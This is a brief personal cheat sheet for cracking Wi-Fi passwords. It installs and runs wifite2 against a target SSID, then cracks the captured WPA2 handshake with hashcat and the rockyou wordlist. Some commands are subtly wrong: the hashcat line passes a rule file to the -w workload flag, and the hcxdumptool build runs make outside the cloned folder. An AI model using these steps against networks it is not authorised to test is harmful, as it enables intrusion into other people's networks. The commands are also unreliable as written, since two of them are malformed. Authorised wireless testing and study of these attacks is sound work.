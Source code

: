 # Personal

### wifite2

{% embed url="https://github.com/derv82/wifite2" %}

1\. Installation:

```bash
# Required Installation
git clone https://github.com/derv82/wifite2.git
cd wifite2
sudo python setup.py install

# Optional Installation
git clone https://github.com/ZerBea/hcxdumptool.git
sudo apt install libcurl4-openssl-dev libssl-dev -y
make
sudo make install
```

2\. Run `wifite2`:

```bash
wifite -e $ssid
```

### Cracking the Handshake

> Use hash mode 22000 to recover a Pre-Shared-Key (PSK). Length of a PSK can be 8 up to 63 characters

```bash
hashcat -m 22000 $handshake /usr/share/wordlists/rockyou.txt -w /usr/share/rules/OneRule.rule
```

### References

{% embed url="https://null-byte.wonderhowto.com/how-to/hack-wi-fi-cracking-wpa2-passwords-using-new-pmkid-hashcat-attack-0189379/" %}
